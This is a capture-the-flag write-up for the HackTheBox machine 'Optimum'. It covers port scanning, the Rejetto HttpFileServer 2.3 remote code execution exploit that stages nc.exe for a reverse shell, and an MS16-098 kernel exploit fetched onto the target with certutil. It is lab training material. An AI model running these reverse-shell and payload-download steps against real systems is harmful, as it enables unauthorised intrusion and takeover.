

# HackTheBox : Optimum

This is a simple Windows machine running `HttpFileServer 2.3` which is vulnerable to remote code execution. The privelege escalation is quite simple with using kernel exploit as it seems the only way.

## Information Gathering

### Port Scan

```zsh
nmap -sS -sC -v -p- 10.10.10.8
```
> Try running -sC later to save time.

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 01:38 EDT
NSE: Loaded 121 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 01:38
Completed NSE at 01:38, 0.00s elapsed
Initiating NSE at 01:38
Completed NSE at 01:38, 0.00s elapsed
Initiating Ping Scan at 01:38
Scanning 10.10.10.8 [4 ports]
Completed Ping Scan at 01:38, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:38
Completed Parallel DNS resolution of 1 host. at 01:38, 0.00s elapsed
Initiating SYN Stealth Scan at 01:38
Scanning 10.10.10.8 [65535 ports]
Discovered open port 80/tcp on 10.10.10.8
SYN Stealth Scan Timing: About 5.79% done; ETC: 01:47 (0:08:25 remaining)
SYN Stealth Scan Timing: About 17.12% done; ETC: 01:44 (0:04:55 remaining)
Stats: 0:01:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 25.66% done; ETC: 01:43 (0:03:49 remaining)
SYN Stealth Scan Timing: About 38.19% done; ETC: 01:42 (0:02:56 remaining)
SYN Stealth Scan Timing: About 47.26% done; ETC: 01:43 (0:02:35 remaining)
SYN Stealth Scan Timing: About 59.56% done; ETC: 01:42 (0:01:55 remaining)
SYN Stealth Scan Timing: About 73.21% done; ETC: 01:42 (0:01:13 remaining)
SYN Stealth Scan Timing: About 81.33% done; ETC: 01:43 (0:00:57 remaining)
Completed SYN Stealth Scan at 01:43, 298.90s elapsed (65535 total ports)
NSE: Script scanning 10.10.10.8.
Initiating NSE at 01:43
Completed NSE at 01:43, 7.29s elapsed
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Nmap scan report for 10.10.10.8
Host is up (0.22s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /

NSE: Script Post-scanning.
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 307.18 seconds
           Raw packets sent: 131270 (5.776MB) | Rcvd: 199 (8.740KB)

```

## Enummeration 

### Discovery

From the nmap we could determine there was only a webapp at port 80.I started enumerating it.
```gobuster``` didnot give any results. 


On a little more enumeration. I found a basic login page but since we have no usernames, I just tried a few default credentials and that is all. I simply started looking more about this 
```HttpFileServer 2.3```


```zsh
searchsploit Rejetto
```


I used the one highlighted in the picture above i.e. ```39161.py```. 

Now, on reading how to use the exploit,the following instructions stood out. 


>EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
> You may need to run it multiple times for success!

**What is the exploit doing ?**

Mindlessly trying out exploits in not something which will take you a long way. Let's try to break it down a bit. Please open the exploit side by side to follow what I am saying.

- ```vbs``` variable is basically downloading the nc.exe which we will host at our kali machine
- ```vbs2``` variable is using cscript.exe which is a command-line version of the Windows Script Host that provides command-line options for setting script properties. With Cscript.exe, you can run scripts by typing the name of a script file at the command prompt
- ```vbs3``` varaible is basically running nc .exe with the cmd.exe, our local ip and port as arguments so we can get the reverse shell back

## Exploitation

Now, that we have chosen out exploit, let's get cracking. Move nc.exe into your working dir.
>Note If you donot have seclists installed.
>Here is the link https://github.com/danielmiessler/SecLists
>if you are using kali linux then this should do the trick ```apt -y install seclists```


Copy the nc.exe to your work folder 

```zsh
locate nc.exe
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```
Copy the exploit to your work folder

```zsh
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
```
Edit the exploit according to your LHOST and LPORT in ```ip_addr``` and ```local_port```


Start the python server where you have the nc.exe

```zsh
python -m SimpleHTTPServer 80
```
Start the listener port specified in the exploit

```zsh
nc -lvnp 443
```
Execute the exploit

```zsh
python 39161.py 10.10.10.8 80
```
Meanwhile, you can ensure that your exploit is working by this


Now when you look at the ```port 443``` listener. We will have the user(kostas) shell.


Accessing the first flag.

***User Flag***


If I try to open the Administrator folder, it will say "Access denied". So, we have to do some privilege escalation

## Privilege Escalation

Whenever I have an intial shell, I always check my privileges and system info

```cmd
whoami /priv
system info
```


We note that OS and build versions so as to find a proper priv-esc method.

I try to avoid using kernel exploits generally, I did enumerate it manually as much as I could and did not find anything juicy, So I tried using the ```windows exploit suggester```

>Here is the link for download : https://github.com/AonCyberLabs/Windows-Exploit-Suggester

**A lot of newer kali had issues with it, so you can try the following**

```zsh 
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
```
Execute this in the folder where you downloaded the above file.

```zsh
python get-pip.py
```

Then,
```zsh
 pip install xlrd
```
Now, you are good to go.

Copy the systeminfo output and paste it in the folder of ```Windows exploit suggester```

```zsh
python windows-exploit-suggester.py --update
```
An xls db would be downloaded use it as a refernce for the db to search against

```zsh
python windows-exploit-suggester.py --systeminfo systeminfo.txt --database  2020-05-04-mssb.xls
```


Now after reading through a few, I decided to got with ```MS16-098```.

To download the binary for this exploit you can download it from here :
>https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098

Or you can get it from the repo mentioned inside the exploit.I have added the exe in my github link for this box.
Now we have to upload this binary. Place it in the same folder where you hosted the nc.exe file and we will use certutil to upload

```cmd
certutil.exe -urlcache -split -f http://10.10.14.8:80/41020.exe 41020.exe
```
Simply execute it and you will have a shell with System privilges


***Root Flag***


That is all for this box. See you in the next one which is "Bastard".